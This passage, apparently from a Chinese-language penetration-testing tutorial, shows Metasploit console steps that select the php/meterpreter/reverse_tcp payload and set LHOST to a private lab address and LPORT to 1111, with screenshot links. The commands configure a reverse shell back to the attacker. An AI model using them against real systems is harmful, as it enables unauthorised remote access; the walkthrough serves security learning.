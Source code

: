 ![use_module](../imgs/wm_77.png)

然后设置我们所使用的攻击脚本：

```
set PAYLOAD php/meterpreter/reverse_tcp
```

![set_payload](../imgs/wm_78.png)

此时需要加载片刻，成功的加载之后，设置我么我们的 IP 与 端口号了：

```
set LHOST 192.168.122.101

set LPORT 1111
```

![set_localhost](../imgs/wm_79.png)
